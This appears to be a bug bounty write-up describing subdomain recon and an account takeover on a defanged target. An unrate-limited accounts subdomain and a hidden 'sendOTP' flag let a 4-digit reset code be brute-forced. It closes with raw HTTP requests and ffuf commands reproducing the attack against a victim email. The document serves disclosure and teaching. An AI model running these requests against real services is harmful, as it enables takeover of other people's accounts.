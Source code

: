 Here is a story of an interesting bug I found on one of my target. Though it was a duplicate, it was a very nice finding. After hunting for few days in the main application of the target, I found nothing but few duplicates. Then I decided to go for it's subdomains. Here are some commands I used:

- Basic enumeration using [subfinder](https://github.com/projectdiscovery/subfinder):
 subfinder -d target[.]com -o all-domains.txt

- Basic enumeration using [assetfinder](https://github.com/tomnomnom/assetfinder):
 echo "target[.]com" | assetfinder | tee -a all-domains.txt

- Active scan using [amass](https://github.com/owasp-amass/amass):
 amass enum -d target[.]com | tee -a amass.txt

- Using permutations with [dnsgen](https://github.com/AlephNullSK/dnsgen) and resolving them with [massdns](https://github.com/blechschmidt/massdns):
 ```
echo "target[.]com" | dnsgen - | massdns -r ~/wordlist/massdns/resolvers.txt -t A -o J --flush 2>/dev/null | cut -d "\"" -f 4 | sed "s/.$//g" | tee -a resolved.txt 
``` 

- After getting the list of domains, I used httpx to filter alive hosts with some port scanning as well:

```
cat all-domains.txt | httpx -ports 80,443,8009,8080,8081,8090,8180,8443,9200,5601 -sc -cl -title -t 100 -fr -nc | tee -a hosts.txt
```

Then after going through most of the domains, I found a sub-domain "accounts[.]target[.]com" which was a 404 page. Usually, I don't go for 404 pages, but something was interesting in this case. I tried searching this sub-domain in web-archive and all but nothing came up. Then, the only thing I could do there, was to fuzz for endoints. I used ffuf (my fav tool by the way), to fuzz for endpoints. Here is the command:
- using ffuf:
 ```
ffuf -u "https[:]//accounts[.]target[.]com/FUZZ" -w ~/wordlist/custom/all.txt -ac
```

Ffuf came up with some results, nothing interesting except the endpoint "login" which redirected me to a login page. After some enumeration, I found out that the login panel uses the same credentials as the main application "target[.]com", so I was able to login with my own account. After logging in into the application it redirected me to the main domain "target[.]com" which was kinda weird. I was thinking "what is the use of this damn sub-domain then". Then, I started to test the login page as it was different from main application. Unfortunetly, it wasn't vulnerable to anything I initially thought of... but there was no rate limit in place. So, bruteforce attack was possible which was out of scope, ofcourse. Then, I thought "Ok, there is no rate limit. So, maybe there are other features like forgot password/reset password which can be devastating", the reason I thought this was because the main application had a forgot password feature that uses OTP to change the password. But there was no such feature. Then, ffuf comes in play. The command I used:
- using ffuf to fuzz the "login" endpoint:
 ```
ffuf -u "https[:]//accounts[.]target[.]com/login/FUZZ" -w ~/wordlist/custom/all.txt -ac
```

And quickly ffuf found some result, and one of them were "resetPassword [Status: 405, Size: 112, Words: 9, Lines: 1, Duration: 537ms]". I was like f* yeah!! I knew it. Then I quickly crafted the "POST request" to "/resetPassword/verify-email" endpoint with a json body containing "email" and "otp" parameters which was exactly similar to the main application's email verification endpoint. But it returned "404 Not found" error. Then, I realized "Oh, because I have not initiated the forgot password request for this email. If they haven't send me an OTP, how the heck will the application finds it. Huh, so stupid.". I went to the main application and initiated the forgot password request which was a "POST request" to "/forgotPassword" endpoint with a json body containing the "email" parameter, the OTP was sent to my email. Then, I used the crafted "POST request" to "/resetPassword/verify-email" enpoint again with the correct OTP. And it successfully returned "302 Found" letting me change my password. And instantly I thought of "account takeover via OTP bypass due to no rate limit in place". I was screaming like "I am GOD. Noone is better than me. Who the f* is elliot". Annnnd then, I repeated the entire process to verify if the exploit works successfully for the POC, ofcourse. But I found out that after consecutive 5 wrong OTP, the applcation returns "404 Not Found" with a json body containing a parameter "reason" saying "attempts exceeded" or something. So, this was another dead-end. But as you know, a hacker never give up. I enumerated further, and imagined "If I have 5 chances to get the OTP right, let's see if I can initiate the forgot password request again -> get 5 more chances -> and if the old OTP works by any chance" but nope. Unfortunately using the old OTP, the application returned "404 Not Found" with a json body with the same parameter "reason" saying "code mismatched". Another dead-end. I thought "even if it was possible, I wouldn't have been able to initiate the forgot password request from main application every second or as many times I want, as there was rate limit in place in the main app..., and I would probably get blocked, right ?. And the main application also only let's you send maximum 10 OTP to your email. So, that will be merely 50 chances lol and the OTP code is 4 digit long and that will be 10000 combinations". So, is this the end ? Nope, not giving up. I thought "Why haven't I tried to create a similar forgot password 'POST request' to '/forgotPassword' endpoint in 'accounts[.]target[.]com' sub-domain ?". The next thing I tried, was to create a similar "POST request" as the main application to "/forgotPassword" endpoint to see if I can initiate the OTP request more than 10 times. And guess what, I was able to do that, this means that I can initiate as many OTP emails as I want (can cause email DOS, making the servers busy). Then the only problem I had, was that I cannot try more than 5 OTP. After 5 unsuccessful attempts, I have to initiate a new OTP request and this way the old OTP expires. I cannot think shit anymore. And what I did next was nuts. Because "accounts[.]target[.]com" has no rate limit in place, I fuzzed all the way up. I used "paraminer" in burpsuite by albinowax to fuzz everything, literally everything. Then, I found 2 json parameters in the forgot password request (OTP initiate request), HAHAHAHAHA (evil laugh), they were {"email":test@test[.]com, "sendLink": true, "sendOTP": true}. The first parameter "email" was the email you want to send the OTP to. The second parameter "sendLink" was to send a link within the OTP email, if the user wants to change the password via a link (funny thing is, you can change it to false, so that user cannot change the password before you do lol). And the third parameter "sendOTP" was to send the OTP code in the email. When I changed the parameter value of "sendOTP" from `true` to `false`, then guess what happened ? Yepp, the code wasn't send in the email but the request was initiated. Hence, making the previously requested OTP valid. Then, I send a "POST request"  to "/email-verify" endpoint with the previously initiated OTP, and it let me change the password. There we go. Now, using this vulnerability, I was able to completely change anyone's password and takeover their account.

#### Steps to Reproduce: (using ffuf)
1. Navigate to "https[:]//accounts[.]target[.]com/login/" (you can perform user enumeration here)
2. Initiate a forgot password request using the victim email from the main application or using this request:
```
POST /forgotPassword HTTP/1.1
Host: target[.]com
<-snip->
{
"email": "victim@victim[.]com"
}
```

3. This POST request is responsible for initiating OTP request without sending OTP code. Save this request in a file (ex: req1):
```
POST /forgotPassword HTTP/1.1
Host: accounts[.]target[.]com
Random-Host: FUZZ
<-snip->
{
"email": "victim@victim[.]com",
"sendLink": false,
"sendOTP": false
}
```

4. This POST request is used for brute forcing the OTP value. Save this request in another file (ex: req2):
```
POST /resetPassword/verify-email HTTP/1.1
Host: accounts[.]target[.]com
<-snip->
{
"email": "victim@victim[.]com",
"otp": FUZZ
}
```

5. Create otp payloads using this command: `seq -f "%04g" 0 10000 > otp`
6. Open two tabs in terminal.
7. 1st tab: `ffuf -request req1 -w otp -ac -t 1 --timeout 50`
8. 2nd tab: `ffuf -request req2 -w otp -ac`
9. After successfully getting the correct OTP, you can change the password and takeover the account.
